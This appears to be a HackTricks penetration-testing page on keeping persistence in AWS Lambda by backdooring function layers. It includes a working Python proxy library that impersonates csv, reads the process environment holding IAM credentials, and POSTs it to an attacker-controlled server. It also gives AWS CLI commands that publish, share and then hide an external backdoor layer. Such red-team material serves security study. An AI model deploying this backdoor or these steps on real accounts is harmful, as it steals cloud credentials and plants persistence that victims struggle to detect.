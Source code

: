 # AWS - Lambda Layers Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## Lambda Layers

A Lambda layer is a .zip file archive that **can contain additional code** or other content. A layer can contain libraries, a [custom runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data, or configuration files.

It's possible to include up to **five layers per function**. When you include a layer in a function, the **contents are extracted to the `/opt`** directory in the execution environment.

By **default**, the **layers** that you create are **private** to your AWS account. You can choose to **share** a layer with other accounts or to **make** the layer **public**. If your functions consume a layer that a different account published, your functions can **continue to use the layer version after it has been deleted, or after your permission to access the layer is revoked**. However, you cannot create a new function or update functions using a deleted layer version.

Functions deployed as a container image do not use layers. Instead, you package your preferred runtime, libraries, and other dependencies into the container image when you build the image.

### Python load path

The load path that Python will use in lambda is the following:

```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```

Check how the **second** and third **positions** are occupy by directories where **lambda layers** uncompress their files: **`/opt/python/lib/python3.9/site-packages`** and **`/opt/python`**

> [!CAUTION]
> If an attacker managed to **backdoor** a used lambda **layer** or **add one** that will be **executing arbitrary code when a common library is loaded**, he will be able to execute malicious code with each lambda invocation.

Therefore, the requisites are:

- **Check libraries** that are **loaded** by the victims code
- Create a **proxy library with lambda layers** that will **execute custom code** and **load the original** library.

### Preloaded libraries

> [!WARNING]
> When abusing this technique I found a difficulty: Some libraries are **already loaded** in python runtime when your code gets executed. I was expecting to find things like `os` or `sys`, but **even `json` library was loaded**.\
> In order to abuse this persistence technique, the code needs to **load a new library that isn't loaded** when the code gets executed.

With a python code like this one it's possible to obtain the **list of libraries that are pre loaded** inside python runtime in lambda:

```python
import sys

def lambda_handler(event, context):
    return {
        'statusCode': 200,
        'body': str(sys.modules.keys())
    }
```

And this is the **list** (check that libraries like `os` or `json` are already there)

```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```

And this is the list of **libraries** that **lambda includes installed by default**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

In this example lets suppose that the targeted code is importing **`csv`**. We are going to be **backdooring the import of the `csv` library**.

For doing that, we are going to **create the directory csv** with the file **`__init__.py`** on it in a path that is loaded by lambda: **`/opt/python/lib/python3.9/site-packages`**\
Then, when the lambda is executed and try to load **csv**, our **`__init__.py` file will be loaded and executed**.\
This file must:

- Execute our payload
- Load the original csv library

We can do both with:

```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
    url= "https://attacker13123344.com/" #Change this to your server
    req = request.Request(url, data=file.read(), method="POST")
    response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```

Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **send the IAM creds to a server THE FIRST TIME it's invoked or AFTER a reset of the lambda container** (change of code or cold lambda), but **other techniques** such as the following could also be integrated:

{{#ref}}
../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md
{{#endref}}

### External Layers

Note that it's possible to use **lambda layers from external accounts**. Moreover, a lambda can use a layer from an external account even if it doesn't have permissions.\
Also note that the **max number of layers a lambda can have is 5**.

Therefore, in order to improve the versatility of this technique an attacker could:

- Backdoor an existing layer of the user (nothing is external)
- **Create** a **layer** in **his account**, give the **victim account access** to use the layer, **configure** the **layer** in victims Lambda and **remove the permission**.
  - The **Lambda** will still be able to **use the layer** and the **victim won't** have any easy way to **download the layers code** (apart from getting a rev shell inside the lambda)
  - The victim **won't see external layers** used with **`aws lambda list-layers`**

```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```

{{#include ../../../../banners/hacktricks-training.md}}






